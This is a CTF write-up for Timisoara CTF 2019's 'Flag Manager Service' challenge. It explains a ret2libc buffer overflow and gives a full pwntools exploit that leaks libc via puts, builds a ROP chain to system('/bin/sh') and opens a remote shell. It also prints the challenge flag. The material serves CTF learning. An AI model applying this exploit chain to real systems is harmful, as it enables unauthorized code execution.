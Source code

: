 ```yaml
---
title: "Flag Manager Service [400]"
tags: [Timisoara CTF, Binary Exploitation]
excerpt: "Binary Exploitation"
layout: single
classes: wide
--- 
```


**Category:** Binary Exploitation 

> Our spies found this flag manager service running on the ctf server. It needs a password tho, but I am sure you can handle it.  
nc 89.38.208.144 11115

[Challenge Files](https://github.com/MiloTruck/CTF-Archive/tree/master/Timisoara%20CTF%202019%20Qualification%20Round/Binary%20Exploitation/Flag%20Manager%20Service%20%5B400%5D){: .btn .btn--primary}

## Write-up
Analysis of the binary with Ghidra shows this is a standard ret2libc buffer overflow. `libc-2.27.so` being provided reinforces the challenge being a ret2libc.

As usual, all ret2libc exploits have the following order:
1. **Leak the address of puts**  
Leak the address of `puts` using `puts` to output the address. Essentially, just call `puts(puts_got)`, where `puts_got` is the address of `puts`in the `GLOBAL OFFSET TABLE (GOT)`.

2. **Calculate the libc base**  
Libc base can be calculated using `puts` - `puts_offset`, where `puts` is the leaked address and `puts_offset` is the address of `puts` in libc. 

3. **Calculate system and /bin/sh address**    
With libc base value, the address of `system` and the string `/bin/sh\x00` can be calculated using `libc_base + system_offset` and `libc_base + binsh_offset` respectively.

4. **Call system(/bin/sh)**  
Overflow the buffer and call `system(/bin/sh)`, which executes shell. Before calling `system(/bin/sh)`, the `RSI` register has to be set to 0, or the call will not work.

Here's the final exploit:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./flag_manager01",
    "libc" : "./libc-2.27.so",
    "ld" : "./ld-2.27.so",
    "HOST" : "89.38.208.144",
    "PORT" : 11115,
}

def exploit(p):
	padding = "\x90"*88
	main = elf.symbols['main']
	puts_got = elf.got['puts']
	puts_plt = elf.plt['puts']

	pop_rdi = elf.search(asm("pop rdi ; ret")).next()
	pop_rsi_r15 = elf.search(asm("pop rsi ; pop r15 ; ret")).next()

	payload = padding 
	payload += p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
	sla("Enter your name: ", payload)
	sla("Enter password please: ", '') 

	p.recvline()
	p.recvline()

	puts = u64(p.recvline().strip() + '\x00'*2)
	base = puts - libc.symbols['puts']
	system = base + libc.symbols['system']
	sh = base + libc.search("/bin/sh\x00").next()

	payload = padding + p64(pop_rdi) + p64(sh) + p64(pop_rsi_r15) + p64(0) + p64(0) + p64(system)

	sla("Enter your name: ", payload)
	sla("Enter password please: ", '')
	 
	lg("SYSTEM: " + hex(system))
	lg("BASE: " + hex(base))
	p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```

**Flag:** TIMCTF{d3v_fd_i5_sn3aky_backd00r}
